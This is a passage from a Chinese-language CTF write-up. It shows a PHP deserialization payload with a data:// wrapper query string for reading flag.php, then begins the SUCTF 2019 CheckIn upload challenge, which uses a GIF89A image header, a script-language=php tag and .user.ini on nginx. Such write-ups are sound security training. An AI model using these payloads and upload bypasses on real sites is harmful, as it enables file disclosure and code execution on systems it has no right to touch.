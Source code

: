 password反序列化读flag.php，

payload:构造序列化脚本：

```php
<?php
class Flag{
	public $file='flag.php';
} 
$flag = new Flag();
$flag_1 = serialize($flag);
echo $flag_1;
?>
```

```
?text=data://text/plain,welcome to the zjctf&file=useless.php&password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}
```

查看源码得到flag

<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/img/image-20220307210749077.png" alt="image-20220307210749077" style="zoom:80%;" />



## [SUCTF 2019]CheckIn

#### 考点：nginx的.user.ini、图片头

关键点就是.user.ini与.htaccess的应用范围、.user.ini还需要同目录下存在一个可执行的php文件、上传图片马后url访问的不是图片地址，而是可执行php文件地址

> [参考WP](https://xz.aliyun.com/t/6091)

文件上传

1. 对后缀的过滤：php：不行，txt：可以，jpg：可以

2. 上传图片马：发现过滤<?，绕过:

   ```
   <script language=php>echo ‘123’;</script> 
   ```

3. 上传.htaccess也不行，必须是图片：改Content-Type: image/jpeg、后缀也不行（估计有图片头检验）

​	然后加上图片头：`GIF89A`，发现没警告了，但是并不能解析成php

**原因在于本题服务器是nginx不是apache**,（nginx要引用.htaccess也可以，但是还要进行某部分修改），这里显然不满足条件，所以没用。

#### .user.ini

![user.ini](https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/img/20190824211552-4c92f9fe-c671-1.png)

也就是说我们可以在.user.ini中设置php.ini中PHP_INI_PERDIR 和 PHP_INI_USER 模式的 INI 设置，而且只要是在使用 CGI／FastCGI 模式的服务器上都可以使用.user.ini


